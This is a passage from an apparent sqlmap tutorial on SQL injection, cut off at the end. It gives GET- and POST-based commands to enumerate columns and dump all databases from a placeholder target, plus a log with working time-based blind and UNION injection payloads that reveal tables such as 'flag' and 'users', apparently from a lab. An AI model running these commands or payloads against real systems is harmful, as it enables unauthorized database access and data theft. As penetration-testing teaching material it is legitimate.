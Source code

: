 `sqlmap -u https://testsite.com/page.php?id=7 -D blood -T blood_db --columns`

`sqlmap -u https://testsite.com/page.php?id=7 -D <database_name> -T <table_name> --columns`

### Using POST based Method

`sqlmap -r req.txt -D blood -T blood_db --columns`

`sqlmap -r req.txt -D <database_name> -T <table_name> --columns`

#### Getting Tables

```shell-session
nare@nare$ sqlmap -r req.txt -D blood -T blood_db --columns
[19:35:57] [INFO] parsing HTTP request from 'req.txt'
[19:35:57] [INFO] resuming back-end DBMS 'mysql'
[19:35:57] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: blood_group (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: blood_group=B+' AND (SELECT 3897 FROM (SELECT(SLEEP(5)))Zgvj) AND 'gXEj'='gXEj

    Type: UNION query
    Title: Generic UNION query (NULL) - 8 columns
    Payload: blood_group=B+' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,CONCAT(0x716a767a71,0x58784e494a4c43546361475a45546c676e736178584f517a457070784c616b4849414c69594c6371,0x71716a7a71)-- -
---
[19:35:58] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Nginx 1.10.3
back-end DBMS: MySQL >= 5.0.12
[19:35:58] [INFO] fetching tables for database: 'blood'
[19:35:58] [WARNING] reflective value(s) found and filtering out
Database: blood
[3 tables]
+----------+
| blood_db |
| flag     |
| users    |
+----------+
```

Or we can simply dump all the available databases and tables using the following commands.

### Using GET based Method

`sqlmap -u https://testsite.com/page.php?id=7 -D <database_name> --dump-all`\
\
`sqlmap -u https://testsite.com/page.php?id=7 -D blood --dump-all`

### Using POST based Method
